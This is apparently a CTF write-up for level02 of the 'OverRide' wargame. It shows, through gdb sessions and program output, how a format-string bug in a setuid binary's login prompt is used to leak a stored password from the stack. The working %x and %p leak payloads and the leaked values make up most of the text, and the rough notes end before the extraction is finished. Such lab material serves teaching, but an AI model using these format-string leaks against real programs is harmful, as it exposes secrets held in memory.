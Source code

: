 ### step 1: Decompile with Ghidra

C code is available in the `source` file  

/!\ File in 64 bits  
```
level02@OverRide:~$ file level02 
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 26.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

### step 2: Code analysis

- Two buffers are filled with `stdin`
  - `buffer1[12]`
  - `buffer2[14]`

- A Username is asked a fill `buffer1`
- If we try to overflow `buffer1` with more than 12 chars, `buffer2` gets filled. Here is an example with only one long input :  

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
--[ Password: *****************************************
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA does not have access!
```

**But we don't get a segfault this way**  

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA%8lx.%8x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
--[ Password: *****************************************
AAAAffffe4f0.00000000.00000025.2a2a2a2a.2a2a2a2a.ffffe6e8.f7ff9a08.78383025.30252e78.2e783830.3830252e.252e7838.78383025.30252e78.2e783830.3830252e.252e7838.78383025.00000000. does not have access!
```
7838302530252e782e7838303830252e252e7838

reversed :
252e78383830252e

0x400d22 = \x22\x0d\x40\x00
f7ff9a08 = \x08\x9a\xff\xf7
ffffe4f0 = \xf0\xe4\xff\xff
0x7fffffffe5d0
printf ("\x22\x0d\x40\x00_%08x.%08x.%08x.%08x.%08x|%s|")

Main variables stack starting Address : 0x7fffffffe5a0

Try `printf ("\x88\xe6\xff\xff_%08x.%08x.%08x.%08x.%08x|%s|")` with these stack addresses to print the content of `read_buffer` ?

### Finding the adress of `file_content`

(gdb) b *0x0000000000400818
Breakpoint 1 at 0x400818

(gdb) r
Starting program: /home/users/level02/level02 

Breakpoint 1, 0x0000000000400818 in main ()
(gdb) p $rsp
$1 = (void *) 0x7fffffffe5d0

- Stack Pointer Address at the beginning of the main is : `0x7fffffffe5d0`  

- The allocated size of stack variables are 288 bytes (0x120)

- The variable is the second declared in the main so it will be the second to last in the memory, the last being an int of size 4 bytes
=> 

AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx.%16lx

AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x

```
AAAAffffe4f0.0.2e.2a2a2a2a.2a2a2a2a.ffffe6e8.f7ff9a08.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.78252e.0.34376848.61733951.574e6758.6e475873.664b394d.0.41414141.78252e78.252e7825.2e78252e.78252e78 does not have access!
```

We can extract this group of 5 * 8 = 40 bytes  followed by `\0` that could be our flag string in hex

34376848.61733951.574e6758.6e475873.664b394d

`3437684861733951574e67586e475873664b394d`

hex to string : `47hHas9QWNgXnGXsfK9M` => does not work !

reversed : 664b394d6e475873574e67586173395134376848 => `fK9MnGXsWNgXas9Q47hH`


%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
--[ Password: *****************************************
0x7fffffffe4f0(nil)0x700x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe6e80x1f7ff9a080x25702570257025700x70(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x29002570250x602010(nil)0x7ffff7a3d7ed(nil)0x7fffffffe6e80x1000000000x400814(nil)0xec9d7c0ee9efabd3 does not have access!
```

We extract `0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d`
